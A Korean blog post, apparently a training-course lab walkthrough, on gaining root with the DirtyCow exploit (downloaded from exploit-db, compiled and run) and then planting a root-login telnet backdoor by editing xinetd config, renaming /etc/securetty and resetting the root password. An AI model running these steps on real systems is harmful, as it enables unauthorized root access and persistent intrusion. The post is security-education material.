 ```yaml
---
layout: post
title: fngs.kr | 6. 권한 상승 및 Lateral Movement
subtitle: fngs.kr 6. 권한 상승 Lateral Movement 단계
categories: Pentest
tags: [Pentest, TTPs]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 이전 내용

웹 쉘을 통해 2차 침투를 위한 리버스 쉘을  커널 버전이 취약한 것을 확인했다. 이번에는 권한 상승인 **Privilege Escalation** 전략을 사용할 것이다.

## Privilege Escalation

공격자는 더 높은 수준의 권한을 얻으려고 합니다.

웹 쉘로 접근 했을 때는 관리자 권한이 아니고 제한적(제 3자의 권한)이기에 권한 상승을 통한 추가 공격을 진행할 것이다.

권한 상승은 공격자가 시스템 또는 네트워크에 대한 더 높은 수준의 권한을 얻기 위해 사용하는 기술로 구성됩니다. 공격자는 종종 권한 없는 액세스로 네트워크에 들어가 탐색할 수 있지만 목표를 달성하려면 높은 권한이 필요합니다.

### Exploitation for Privilege Escalation

공격자는 권한을 높이기 위해 소프트웨어 취약점을 악용할 수 있습니다. 소프트웨어 취약점의 악용은 공격자가 프로그램, 서비스 또는 운영 체제 소프트웨어 또는 커널 자체의 프로그래밍 오류를 이용하여 공격자가 제어하는 ​​코드를 실행할 때 발생합니다.

권한 수준과 같은 보안 구성은 종종 정보에 대한 액세스와 특정 기술의 사용을 방해하므로 공격자는 이러한 제한을 우회하기 위해 소프트웨어 악용을 포함하도록 권한 상승을 수행해야 할 것입니다.

저번 실행 및 발견을 통해 해당 커널 버전이 취약하다는 것을 확인했다. 

권한 상승을 위한 악용으로는 **CVE-2016-5195(DirtyCow)**를 이용할 것이다.

#### DirtyCow

4.8.3 이전 버전인 리눅스 커널 2.x에서 4.x까지의 mm/gup.c 단위의 Race Condition은 로컬 사용자가 읽기 전용 메모리 매핑에 쓰기 위해 COW(Copy-On-Write) 기능을 잘못 처리함으로써 권한을 얻을 수 있게 한다.

**즉, Copy-On-Write 취약점을 이용한 Race Condition을 유발하는 것이다.**

자세한 내용을 [링크](https://www.cvedetails.com/cve/CVE-2016-5195/?q=CVE-2016-5195)를 통해서 확인해보길 바랍니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183238308-ec01767d-3488-4e38-be8a-8ff2e61e7d19.png" width = 580>
</p>

> 리버스 쉘으로 진행할 것이다.

```bash
wget https://www.exploit-db.com/exploits/40616 -O cowroot.c # File Download
gcc cowroot.c -o cowroot -pthread
./cowroot # <--------- <주의> 아래를 먼저 읽고 진행하세요.
```

* gcc -pthread : .c 파일 내에서 `pthread`를 사용한다. 하지만 Linux에서 gcc 컴파일 시 pthread에 대한 라이브러리를 자동으로 링킹해주지 않기에 해당 옵션으로 링킹을 해줘야한다.

**지금부터 잘못 했을 경우 피해자 시스템에 대한 정보를 모두 날리고 진행해야합니다. 스냅샷을 해두시길 바랍니다.**

우리는 다운로드 받은 cowroot.c를 컴파일하여 실행 파일로 만들었다.

해당 취약점을 이용한 악용을 커널에 대해 비정상적으로 접근하기에 커널 패닉으로 인한 먹통이 일어날 수 있다. 따라서, 커널 패닉 발생을 차단하기 위한 코드를 미리 준비해둬야 한다.

```bash
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
mv /tmp/bak /usr/bin/passwd
```

* 위 코드를 메모장에 적어두고 복사-붙여넣기를 미리 준비해둔다.

`./cowroot`를 하자마자 바로 터미널에 두 명령어를 붙여넣고 `id`를 하면 root 권한으로 변경된 것을 확인 할 수 있다.

_필자는 이미 진행 했기에 연결 접속 해제 이후 추가 접속이 불가하기에 예시 사진을 보여드릴 수 없습니다._

이렇게 root 권한을 탈취 성공 하였다면 해당 추가적인 접근 움직임을 **Lateral Movement** 전술이라 한다.

## Lateral Movement

공격자가 네트워크의 원격 시스템에 진입하고 제어하는 ​​데 사용하는 기술로 구성됩니다. 주요 목표를 달성하려면 종종 네트워크를 탐색하여 목표를 찾은 다음 액세스 권한을 얻어야 합니다. 

우리는 원격 접속 서비스의 대표적인 텔넷을 악용하여 내부 시스템에 접근할 것이다. 텔넷을 이용한 백도어로 설치를 진행하겠습니다.

### Remote Service

공격자는 유효한 계정 을 사용하여 **Telnet, SSH 및 VNC**와 같은 원격 연결을 허용하도록 특별히 설계된 서비스에 로그인할 수 있습니다. 그런 다음 공격자는 로그온한 사용자로 작업을 수행할 수 있습니다.

대부분의 서비스들은 사용하지 않는 서비스 및 프로그램(Telnet, SSH)를 설치 하지 않았을 것이다.

하지만, 우리는 root 권한을 가지고 있기에 Telnet을 설치할 것이다.(추가로 리버스 쉘을 통해서 접근해보면 환경 변수가 제대로 적용 되어 있지 않기에 환경 변수도 수정해줄 것이다.)

```bash
export PATH=$PATH:/usr/local/bin
export PATH=$PATH:/usr/sbin
export PATH=$PATH:/sbin
```

```bash
apt-get install -y xinetd telnetd # Install telnet service
```

* 텔넷에 대한 config를 수정해야하는데 `vi`도 되지 않을 것이다. `echo`를 이용하여 config를 수정해준다.

```bash
echo -e "service telnet\n{\n    disable = no\n    flags = REUSE\n    socket_type = stream\n    wait = no\n    user = root\n    server = /usr/sbin/in.telnetd\n    log_on_failure += USERID\n}" > /etc/xinetd.d/telnet
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183238855-c2bc402b-fc83-4d65-a8db-b216ea4f1b73.png" width = 290>
</p>

* `cat /etc/xinetd d/telnet`로 제대로 적용됐는지 확인해본다.

* `mv /etc/securetty /etc/securetty.old`
  * `securetty`은 터미널을 root 계정으로 접근할 수 있는 ID를 모아둔 것으로 root 계정을 해당 파일에 등록하면 괜찮지만, 변경보단 파일명을 인식하지 못하게 변경하여 우회하여 접근하는 것이다.

* `sudo passwd`로 root 패스워드를 변경한다.

* `service xinetd restart`로 재시작하고 `telnet dev.fngs.kr`를 하고 ID(root), PW를 입력하면 아래처럼 root 권한으로 접근한 것을 알 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183239041-42e98daf-7254-4146-9388-8c33d3ac05f3.png" width = 450>
</p>
